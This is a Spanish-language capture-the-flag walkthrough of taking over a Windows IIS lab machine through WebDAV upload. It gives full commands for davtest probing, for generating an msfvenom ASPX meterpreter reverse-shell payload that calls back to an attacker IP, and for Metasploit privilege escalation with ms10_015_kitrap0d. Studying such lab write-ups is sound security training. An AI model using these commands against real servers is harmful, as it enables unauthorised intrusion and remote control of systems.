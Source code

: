 Hacemos el reconocimiento con nmap:
![[Pasted image 20231201112011.png]]
Y dentro del reporte de nmap estamos viendo que tenemos webdav habilitado, lo cual significa que se proporcionan funcionalidades adicionales más allá de las capacidades básicas de HTTP, tales como la edición remota y la gestión de archivos; y en este caso podemos ver que podemos subir archivos al servidor:
![[Pasted image 20231201112022.png]]
Por lo que hay una tool llamada davtest que nos permite saber qué tipo de archivos podemos subir al servidor:
```python
davtest -url http://10.10.10.15
```
![[Pasted image 20231201112041.png]]
El siguiente paso será generar un payload con msfvenom de asp (que es compatible con IIS) pero con extensión .txt para que podamos subirlo al servidor:
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.24 LPORT=444 -f aspx -o shell.aspx.txt
```
![[Pasted image 20231201112542.png]]
Y con una tool llamada cadaver vamos a subir el archivo malicioso, y al estar subido, le cambiamos el nombre dejándole la extensión .asp:
![[Pasted image 20231201112556.png]]
Y ahora nos ponemos en la escucha con metasploit, ya que queremos recibir una sesión de meterpreter, por lo que ejecutamos la shell.aspx que tenemos subida en el servidor:
![[Pasted image 20231201112751.png]]
![[Pasted image 20231201112740.png]]
Una vez dentro, ejecutamos el módulo de local exploit suggester [[Escalada de Privilegios Windows en Metasploit]]:
![[Pasted image 20231201112848.png]]
Le cargamos la sesión:
![[Pasted image 20231201112918.png]]
Y lo ejecutamos, donde nos habrá encontrado los siguientes exploits, y nosotros usaremos el primero de ellos:
![[Pasted image 20231201113143.png]]
```python
use exploit/windows/local/ms10_015_kitrap0d
```
Y ya somos root:
![[Pasted image 20231201113210.png]]
